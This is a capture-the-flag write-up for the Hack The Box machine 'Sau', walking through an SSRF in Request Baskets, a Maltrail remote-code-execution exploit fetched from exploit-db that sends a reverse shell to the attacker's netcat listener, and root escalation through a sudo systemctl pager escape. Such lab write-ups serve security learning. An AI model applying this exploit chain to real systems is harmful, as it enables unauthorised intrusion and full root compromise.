# Sau

Sau is a easy machine on HTB

## Enumeration

First we check the open port via **nmap**.




The ports 22, 80 and 55555 are open.
Let's check the unusual port 55555.



It's a **Request Basket** service. And at the footer of the page we can see it's version : **1.2.1**

After a little research we find the CVE-2023-27163, request-baskets up to v1.2.1 was discovered to contain a **Server-Side Request Forgery** (SSRF) via the component `/api/baskets/{name}`. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.

Create a new basket and open it, next setup a **netcat** listener to test if the SSRF work.



```bash
nc -lvnp 80
```

Click on the setings button on the Request Baskets service and change the **Forward URL** to your ip and click on apply (specify the port of your netcat listener if not 80)



Now make a curl request to your baskets to see if the redirection work

```bash
curl http://10.10.11.224:55555/test
```



And it works! So we can try to redirect to the port 80 of the machine who is filtered.
Change the Forwad URL to `http://127.0.0.1:80`, enable the option **Proxy Response** and **Expand Forward Path**



Try to access `http://10.10.11.224:55555/test` in your browser



## Foothold

We see a **Mailtrail** instance and at the footer of the page we can see the version : **0.53**
After some research we found that this version is vulnerable to **Unauthenticated Remote Code Execution**, plus there is a POC on exploit-db. Let's download it.

```bash
curl -s https://www.exploit-db.com/download/51676 > exploit.py
```

Start a netcat listener on the port of your choice and execute the python script.

```bash
python3 exploit.py {Your IP} {The port of your netcat} http://10.10.11.224:55555/{Your basket}
```


You should have a reverse shell on your netcat listener now.



Stabilize it with :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```
We have a shell as the user puma and we can find the user flag in his home directory



## Privilege escalation

Run `sudo -l` to see if our user can execute some comand as root. And we can see that it can execute `/usr/bin/systemctl status trail.service`
This version of systemctl is **systemd 245** which is vulnerable because it use `less`
So after running `/usr/bin/systemctl status trail.service` just write `!sh` and press Enter.



And we are root! You can find the flag in **/root/root.txt**

